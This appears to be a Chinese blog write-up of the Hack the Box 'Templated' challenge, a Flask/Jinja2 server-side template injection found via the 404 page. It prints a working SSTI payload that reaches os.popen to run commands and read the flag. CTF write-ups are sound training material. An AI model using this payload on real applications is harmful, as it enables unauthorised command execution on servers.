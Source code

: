 ```yaml
---
title: "Hack the Box——Templated"
date: 2020-12-16T11:32:53+08:00
showDate: true
draft: false
tags: ["security","hack the box", "ctf"]
categories: ["security"]
---
```



## 0x00 前言

好久没有逛htb了，今天上htb，发现出新题了，难度是EASY，那应该挺简单的。马上开做。

## 0x01 访问主站

从界面写的`powered by Flask/Jinja2`和题目叫`Templated`，盲猜这题是ssti了。

![1.png](1.png)

但是首页应该是没有注入点，所以得找找注入点

## 0x02 404注入点

url随便加个path，这个404的界面就很可疑了。

![2.png](2.png)

测试下payload `{{ config }}`，成功找到注入点

![3.png](3.png)

## 0x03 漏洞利用

这里就可以通过python的魔术方法，首先通过`__class__`获取对象的类，然后`__mro__`获取对象继承的类，因为所有的对象都是继承自object，这样就可以拿到object类了，再通过`__subclasses__`获取到object的子类，子类中的`<class 'warnings.catch_warnings'>`的命名空间里有`__builtins__`，最后使用`__import__`方法导入`os`库就可以任意命令执行了。最后的payload如下。

```python
{{ "".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("cat flag.txt").read() }}
```

## 0x04 总结

这个题目确实有点过于简单了，也没有过滤啥的。

## 0x05

[一篇文章带你理解漏洞之SSTI漏洞](https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E/#2-Flask-Jinja2)

